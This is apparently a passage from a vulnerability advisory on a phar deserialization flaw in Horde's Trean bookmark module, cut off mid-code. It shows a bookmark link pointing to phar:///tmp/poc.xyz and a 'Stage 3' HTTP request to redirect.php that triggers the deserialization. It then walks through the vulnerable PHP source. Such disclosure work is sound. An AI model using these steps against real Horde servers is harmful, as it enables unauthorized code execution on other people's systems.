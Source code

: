 ```
...
        <a href="/horde/trean/redirect.php?b=28" target="_blank">phar:///tmp/poc.xyz</a>
```

Stage 3 - Trigger phar deserialization.

```
GET /horde/trean/redirect.php?b=28 HTTP/1.1
Host: <target>
Cookie: Horde=<sessionid>
```

### Vulnerability Analysis

As noted, an attacker can reach the trigger path from the `trean/redirect.php` script:

```php
require_once __DIR__ . '/lib/Application.php';
Horde_Registry::appInit('trean');

$bookmark_id = Horde_Util::getFormData('b');
if (!$bookmark_id) {
    exit;
}

try {
    $bookmark = $trean_gateway->getBookmark($bookmark_id);
    ++$bookmark->clicks;
    $bookmark->save();                                              // 1
    header('Location: ' . Horde::externalUrl($bookmark->url));
} catch (Exception $e) {
}
```

The `save` method is implemented in the `trean/lib/Bookmark.php` script:

```php
class Trean_Bookmark
{

    //...

    public function save($crawl = true)                             // 2
    {
        if (!strlen($this->url)) {
            throw new Trean_Exception('Incomplete bookmark');
        }

        $charset = $GLOBALS['trean_db']->getOption('charset');
        $c_url = Horde_String::convertCharset($this->url, 'UTF-8', $charset);
        $c_title = Horde_String::convertCharset($this->title, 'UTF-8', $charset);
        $c_description = Horde_String::convertCharset($this->description, 'UTF-8', $charset);
        $c_favicon_url = Horde_String::convertCharset($this->favicon_url, 'UTF-8', $charset);

        if ($this->id) {
            // Update an existing bookmark.
            $GLOBALS['trean_db']->update('
                UPDATE trean_bookmarks
                SET user_id = ?,
                    bookmark_url = ?,
                    bookmark_title = ?,
                    bookmark_description = ?,
                    bookmark_clicks = ?,
                    bookmark_http_status = ?,
                    favicon_url = ?
                WHERE bookmark_id = ?',
```